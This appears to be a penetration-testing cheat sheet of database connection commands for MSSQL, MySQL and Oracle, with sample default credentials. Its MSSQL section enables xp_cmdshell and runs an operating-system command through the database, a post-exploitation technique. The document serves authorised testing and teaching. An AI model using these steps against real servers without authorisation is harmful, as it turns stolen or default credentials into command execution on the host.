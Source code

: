 ```yaml
---
layout: default
title: DB related Commands
parent: General Pentesting
nav_order: 7
---
```


# DB related Commands
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---



### Manually connect to MSSQL databases with credentials

Install freetds and sqsh - should be already in kali
```
apt-get install sqsh freetds-bin freetds-common freetds-dev
```
Edit /etc/freetds/freetds.conf, and append the following to it:
```
[TargetServer]
host = 192.168.1.10
port = 1433
tds version = 8.0 # to chose correct tds: http://www.freetds.org/userguide/choosingtdsprotocol.htm
```
Edit ~./sqshrc:
```
\set username=sa
\set password=password
\set style=vert
```
Connect:
```bash
sqsh -S TargetServer
```
Enumerate available databases:
```
SELECT name FROM master..sysdatabases
go
```
Enable xp_cmdshell and get command execution:
```
exec sp_configure 'show advanced options', 1
go
reconfigure
go
exec sp_configure 'xp_cmdshell', 1
go
reconfigure
go
xp..cmdshell 'dir c:\' 
go
```

### Manually connect to MSSQL databases with credentials - Alternative
Use mssqlclient.py from Impacket but gives an impacket command line and not the mssql db command line
```bash
mssqlclient.py username@10.10.10.123 -windows-auth 
```

### Manually connect to mysql:
```
mysql -u {username} -p'{password}' \
    -h {remote server ip or name} -P {port} \
    -D {DB name}
```

### Manually connect to Oracle DB:
```
sqlplus scott/tiger@10.10.10.82:1521/XE as sysdba # XE is the SID and 'as sysdba' is kind of sudo for oracle
```

### Manually connect to most databases
Use RAZORSQL (30 days trial)

